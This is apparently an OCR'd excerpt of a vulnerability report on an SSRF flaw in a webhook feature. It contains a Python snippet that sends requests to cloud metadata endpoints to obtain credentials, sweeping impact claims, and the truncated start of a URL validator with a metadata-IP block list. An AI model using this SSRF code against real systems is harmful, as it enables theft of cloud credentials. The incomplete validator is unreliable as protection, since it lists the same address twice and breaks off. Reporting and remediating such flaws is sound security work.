 ```python
        payload = {
            "url": endpoint,
            "method": "GET",
            "headers": {
                "Metadata-Flavor": "Google"  # For GCP
            }
        }
        
        response = requests.post(webhook_url, json=payload)
        if response.status_code == 200:
            print(f"SSRF successful for {endpoint}")
            print(f"Response: {response.text}")
```

## **🎯 ENHANCED IMPACT ASSESSMENT**

### **Original Impact**: Configuration Exposure
### **Enhanced Impact**: Complete System Compromise

#### **Confidentiality**: Critical (Upgraded)
- **Auth0 User Database**: Access to all user accounts
- **SAML User Data**: Enterprise authentication bypass
- **Cloud Credentials**: AWS/GCP access keys via SSRF
- **Internal Network**: Complete infrastructure mapping

#### **Integrity**: Critical (Upgraded)
- **User Account Takeover**: Auth0 exploitation
- **Admin Privilege Escalation**: SAML bypass
- **Cloud Resource Control**: Metadata SSRF exploitation
- **System Configuration**: Complete control over infrastructure

#### **Availability**: Critical (Upgraded)
- **Service Disruption**: Cloud resource manipulation
- **Data Destruction**: Cloud storage access
- **Network Control**: Internal infrastructure takeover

## **🛡️ ENHANCED REMEDIATION**

### **Immediate Actions (Critical)**
1. **Remove Configuration Endpoint**: Block `/api/v1/flags` entirely
2. **Auth0 Security Review**: Audit Auth0 configuration and permissions
3. **SAML Security**: Implement proper SAML validation
4. **Webhook Security**: Add SSRF protection to webhook endpoints

### **Advanced Security Controls**
```python
# Enhanced webhook security
import re
from urllib.parse import urlparse

def validate_webhook_url(url):
    """Prevent SSRF in webhook URLs"""
    parsed = urlparse(url)
    
    # Block internal IPs
    internal_ips = [
        '127.0.0.1', 'localhost', '0.0.0.0',
        '169.254.169.254',  # AWS metadata
        'metadata.google.internal',  # GCP metadata
        '169.254.169.254',  # Azure metadata
    ]
```